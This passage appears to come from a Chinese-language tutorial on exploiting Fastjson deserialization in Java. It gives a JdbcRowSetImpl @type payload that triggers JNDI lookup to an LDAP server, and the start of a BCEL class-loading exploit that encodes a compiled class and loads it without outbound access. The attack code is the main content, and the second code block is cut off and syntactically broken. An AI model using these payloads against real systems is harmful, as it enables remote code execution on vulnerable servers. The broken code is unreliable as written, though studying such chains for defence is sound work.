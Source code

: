 ```plain
        */
// 第三个值传入一个布尔值


        String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/rNMfFuPI\",\"AutoCommit\":\"false\"}";

        JSON.parseObject(s);
    }
}
```

#### 限制：

版本限制，依赖限制，出网（JNDI外联）

### FastJsonBcel类+动态类加载（不出网）：

#### 调用链：

我们在jdk的内置类中找到了这样一方法，能够进行动态类加载，就是ClassLoader里面的loadClass方法，在里面调用了defineClass：

[![](assets/1701612260-1efa2d0212e378142c28552c36e0e840.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230155-dd150508-2969-1.png)

我们先来看一下如何使用这里的动态类加载来加载任意类：

我们想要调defineClass，就要保证clazz不为null，然后我们就要调前面的`createClass`方法，然后里面调用了`decode`方法返回了clazz值，所以我们在编写exp的时候就需要先进行一个`encode`：

[![](assets/1701612260-2c5440b20a08ec2fa925b885816c06ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230203-e210d758-2969-1.png)

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
        //使用BCEL方式动态加载一下
        classLoader.loadClass("$$BCEL$$"+code).newInstance();


    private static byte[] convert(String s) throws Exception{
    }
}
```
